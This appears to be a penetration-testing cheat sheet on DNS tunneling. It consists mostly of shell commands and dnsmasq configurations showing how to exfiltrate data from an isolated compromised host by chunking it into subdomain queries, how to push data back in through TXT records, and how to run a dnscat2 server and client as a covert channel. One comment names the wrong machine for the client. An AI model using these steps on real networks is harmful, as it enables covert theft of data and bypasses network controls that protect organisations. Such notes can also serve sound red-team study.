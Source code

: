 ### DNS Tunneling

{% code overflow="wrap" fullWidth="true" %}
```sh
# In real world, steps would be register a domain name, set up authoritative name server and tell the domain name that a specific server should be known as the authoritative name server for domain.corp zonee.
# A reaches B and D, C reaches B but cannot communicate neither to D nor A directly. We need a shell on B and D to make C connectable through them

# Use this config file on D machine
user@D cat dnsmasq.conf
# Do not read /etc/resolv.conf or /etc/hosts 
no-resolv 
no-hosts

# Define the zone 
auth-zone=domain.corp 
auth-server=domain.corp

# Now run it in no daemon mode
user@D sudo dnsmasq -C dnsmasq.conf -d
# On another shell of D machine we could listen the DNS packets to confirm the traffic ongoing
user@D sudo tcpdump -i tun0 udp port 53
# On C machine check the DNS settings (DNS resolution is handled by systemd-resolved)
user@C resolvectl status
# Make DNS request from C to D
user@C nslookup exfiltrated-data.domain.corp
# When using dnsmasq.conf and go for nslookup from C target is normal to see cannot find NXDOMAIN because we are not serving records yet.
# Where we were listening on C machine with tcpdump we should get that request.
# This is exfiltration of small chunks. For a binary file, convert it into a long hex string, split it and send each chunk like [hex-chunk].domain.corp. On the server side, log all requests and convert them back to a full binary.
# To infiltrate data (from D to C) use TXT record. First kill dnsmasq task before and use this other config:
user@D cat dnsmasq.conf
# Do not read /etc/resolv.conf or /etc/hosts 
no-resolv 
no-hosts

# Define the zone 
auth-zone=domain.corp 
auth-server=domain.corp
# TXT record 
txt-record=www.domain.corp,juicy data
txt-record=www.domain.corp,juicy data 2nd part
user@D sudo dnsmasq -C dnsmasq.conf -d
# Now make a request from C to the DNS server on D in order to get the data
user@C nslookup -type=txt www.domain.corp
# To infiltrate binary data, serve it as base64 encoded TXT records and convert them back on the internal server

######## with dnscat2 (exfiltrate data with DNS subdomain queries and infiltrate data with TXT and other records)
# dnscat2 server runs on an auth name server and clients are run on compromised machines
# Listen on D machine just to check traffic (will be a lot when DNS server and client communicate)
user@D sudo tcpdump -i tun0 udp port 53
# On another shell run dnscat2-server with the domain as argument
user@D dnscat2-server domain.corp
# Run the dnscat client binary on D machine and pass the domain as argument
user@C ./dnscat domain.corp # we should see connection established and a string, the same on client and server to verify integrity
```